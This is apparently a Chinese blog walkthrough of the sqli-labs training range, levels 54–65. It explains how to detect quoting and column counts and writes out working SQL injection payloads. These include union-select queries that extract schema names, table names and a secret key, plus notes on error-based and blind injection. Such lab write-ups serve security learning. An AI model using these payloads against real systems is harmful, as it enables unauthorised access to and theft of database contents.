sql-labs记录3
本文记录sqli-labs第54-65关，也算是踩了很多坑吧
1.基础知识
1.判断闭合
之前判断闭合直接是上符号再闭合进行判断，这样是不对的，容易出错，应该采用以下方式:来源于Y4tacker
判断闭合方式，目前常用的闭合方式为单引号’’，单引号括号(’’)，双引号””，双引号括号(“”)
1.常规判断方法
1.首先尝试：
1 | ?id=1’ |
- 如果都报错，则为整形闭合。
2.如果单引号报错，双引号不报错。然后尝试
?id=1' --+ ?id=1' #1
2
3
4
5
6
7
8
+ 无报错则单引号闭合。报错则单引号加括号。
3.如果单引号不报错，双引号报错。然后尝试
```sql
?id=1" --+
?id=1" #无报错则双引号闭合。报错则双引号加括号。
2.真假值判断
1.输入（其中id=1,1是正确的数据库存在的值），正常回显
1 | ?id=1 and true --+ |
输入，错误回显
1 | ?id=1 and false --+ |
那么就是整形闭合
2.输入（其中id=1,1是正确的数据库存在的值），正常回显
1 | ?id=1’ and true --+ |
输入，错误回显
1 | ?id=1’ and false --+ |
那么就是单引号闭合，其他符号同理
3.order by闭合方式判断()
是否存在注入，若结果不同，就是存在注入，可以往下进行，若结果相同，判断是否为字符注入
1 | ?sort=1 desc |
是否为数字注入，显示结果不同，则为数字注入，相同，则往下进行
1 | ?sort=right(version(),1) |
是否为布尔类型，此时我们可以用报错注入和延时注入
1 | ?sort=rand(true) |
是否为字符注入，回显结果不一样，就说明闭合方式为单引号，其他闭合方式（双引号，单引号括号，双引号括号）同理
1 | ?sort=1 |
2.判断字段数
按照惯性思维，一般都是order by进行判断，但有时候不一定会成功，就应该考虑其他方式了。
1.order by
语法：?id=1' order by 1,2,3--+
2.union select
语法：?id=1' union select 1,2,3--+
在这里要说一点就是括号的优先级大于单双引号，如果我们遇到 字符型带括号类型注入，如字符型单引号小括号，如果我们在url中输入?id=1)–+ ?id=1”)–+ 由于优先级的问题页面是会返回正常，但后台数据库并没有成功的进行闭合，使用union注入后都无法成功进行注入。
2.靶场记录
Less54：GET-union查询-每轮允许10次
题目要求：The objective of this challenge is to dump the (secret key) from only random table from Database ('CHALLENGES') in Less than 10 attempts. For fun, with every reset, the challenge spawns random table name, column name, table data. Keeping it fresh at all times.
意思就是此挑战的目标是在不到10次的尝试中从数据库（challenges）的随机表中转储（密钥）。超过10此就会重置，每次都会生成随机表名、列名和表数据。
第一关先按正常步骤来，后面的直接贴关键的了
1.找闭合，单引号闭合

单引号不正常，双引号正常，则闭合为单引号
2.找字段数：3
这一步试了很多，注释符用#注释不了，只能用--+，而且不能用order by进行判断，只能用 union select

3.爆数据库，这一关已经给出数据库是’CHALLENGES’了，所以不用查了，但是往往需要自己查，payload如下
?id=-1' union select 1,concat_ws('|',database(),version(),@@datadir,@@version_compile_os),user() --+
4.爆表名：
payload:?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='CHALLENGES' --+

5.爆字段
payload：?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='challenges' and table_name='5t0md80073'--+

有一个secret_9PML，猜测 Secret Key在这个里面
6.爆数据
payload：?id=-1' union select 1,2,group_concat(secret_9PML) from challenges.5t0md80073--+

7.验证结果，正确！
Less55：GET-union查询-每轮允许14次-1
判断闭合
1 | ?id=1 正确回显 |
除了闭合不一样，其余都和54关一样
Less56：GET-union查询-每轮允许14次-2
判断回显
1 | ?id=1 正确回显 |
其他都一样
Less57：GET-union查询-每轮允许14次-3
判断闭合
1 | ?id=1' 正确回显 |
其他都一样。
Less58：GET-双查询-每轮允许5次-1
判断闭合
1 | ?id=1' 异常回显 |
这一关无法使用union查询，看图


其他都一样
使用group_concat()函数进行双注入报错
payload
1 | 表 |
Less59：GET-双查询-每轮允许5次-2
为数字型注入，同58类似
Less60：GET-双查询-每轮允许5次-3
带括号的双引号字符型注入，参考58
Less61：GET-双查询-每轮允许5次-4
带两个小括号的单引号字符型，参考58
Less62：GET-盲注-每轮允许130次-1
字符型单引号加小括号闭合，没有报错回显信息，无法利用报错注入，
?id=1') union select 1,2,3-- # 无法有效的回显我们需要的信息，也就是说无法进行union联合注入，那么我们只能进行盲注了,参考Less-8，利用二分法进行布尔盲注
Less63：GET-盲注-每轮允许130次-2
'闭合,其他一样
Less64：GET-盲注-每轮允许130次-3
1))闭合，其他一样
Less65GET-盲注-每轮允许130次-4
")闭合，其他一样
后面的关卡没有源码了。。。
参考：https://blog.csdn.net/weixin_39934520/article/list/8
里面很多tips我没有考虑到